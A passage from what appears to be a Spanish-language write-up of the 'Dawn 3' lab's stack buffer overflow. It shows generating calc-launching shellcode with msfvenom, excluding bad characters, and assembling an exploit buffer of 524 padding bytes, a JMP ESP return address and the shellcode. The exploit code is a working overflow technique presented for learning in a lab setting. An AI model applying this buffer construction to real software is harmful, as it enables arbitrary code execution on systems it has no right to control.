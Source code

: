 Efectivamente, podemos lograr modificar el flujo del programa y enviarlo a la dirección donde están inyectadas las 'C's, toca generar y añadir la shellcode, esta estará situada una vez el EIP se sobreescriba con la dirección de la instrucción JMP ESP.

Para la generación de la shellcode se utilizará `msfvenom` y se le indicará la instrucción de ejecutar una calculadora, quitando los badchars que se han detectado previamente:

```bash
msfvenom -a x86 -p windows/exec CMD=calc.exe -f c -b '\x00'
```

Una vez generada se añade en el script y se envia el payload:

```python
shell = ("\x8d\xd4\xa1\x40\xe4\xd1\xee\xc6\x14\xab\x7f\xa3\x1a\x18\x7f"
..snip..
"\xe6\x78\xff\x13\x6a\x51\x9a\x93\x09\xad")

# 0x52501513 = \x13\x15\x50\x52
buffer = "A"*524  + "\x13\x15\x50\x52" + shell +"C" * (888 - 524 - 4 - len(shell))
```

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210723184455.png" height="500" width="825" /></p>
